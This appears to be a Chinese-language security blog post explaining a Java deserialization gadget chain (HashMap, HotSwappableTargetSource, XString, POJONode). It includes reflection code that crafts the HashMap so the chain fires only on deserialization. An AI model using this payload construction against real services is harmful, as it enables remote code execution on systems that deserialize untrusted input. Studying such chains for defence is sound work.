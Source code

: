 ```yaml
---
layout: post
title: hashmap反序列化#equals
categories: [blog ]
tags: [Java,]
description: ""
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: azeril.compu
---
```




```java
   HashMap hashMap = new HashMap();
        setFieldValue(hashMap, "size", 2);
        Class nodeC;

        nodeC = Class.forName("java.util.HashMap$Node");
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        //创建一个数组

        Array.set(tbl, 0, nodeCons.newInstance(0, h1, "whatever", null));
        Array.set(tbl, 1, nodeCons.newInstance(0, h2, "whatever", null));
        setFieldValue(hashMap, "table", tbl);
        serialize(hashMap);

        unserialize("ser.bin");
```

利用了反射的手段进行赋值，防止了序列化的时候进入equals方法执行命令。

### 解决一下以前的困扰

为啥不能直接hashmap#readObject--->XString#equals()方法，需要一个中间类

`org.springframework.aop.target.HowSwappableTargetSource#equals`

因为如果只利用XString的话，如果要满足hash相等说明key的值就相同，XString类中重写了hashcode方法，是计算str(_obj)的值，_obj是通过XString构造方法获得的，所以到这里obj2依然是XString类型

![image-20231126170809794](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231126170809794.png)

org.springframework.aop.target.HowSwappableTargetSource也重写了hashcode方法，并且hashcode基本相当于固定的

他这里关键是获得某个类的target属性，这样就很nice

通过这里触发 XString#equals,然后触发obj2.toString，二个参数就是二个类的target

![image-20231126170515867](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231126170515867.png)



这里就会明了了

首先触发 h2.equals(h1) --->h2.equals(h1)-->Xstring.equals(pojoNode2)-->pojoNod2.toString

```java
HotSwappableTargetSource h1 = new HotSwappableTargetSource(pojoNode2);
HotSwappableTargetSource h2 = new HotSwappableTargetSource(new XString("whatever"));

        // 手动构造 HashMap 以防触发正向利用链
        HashMap hashMap = new HashMap();
        setFieldValue(hashMap, "size", 2);
        Class nodeC;
        nodeC = Class.forName("java.util.HashMap$Node");
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, h1, "whatever", null));
        Array.set(tbl, 1, nodeCons.newInstance(0, h2, "whatever", null));
        setFieldValue(hashMap, "table", tbl);
```

## 最后

是判断key的hash，相等了才触发equals方法

![image-20231126171822128](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231126171822128.png)

31默认的hashcode计算，这个无需多言了

![image-20231126172100020](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231126172100020.png)
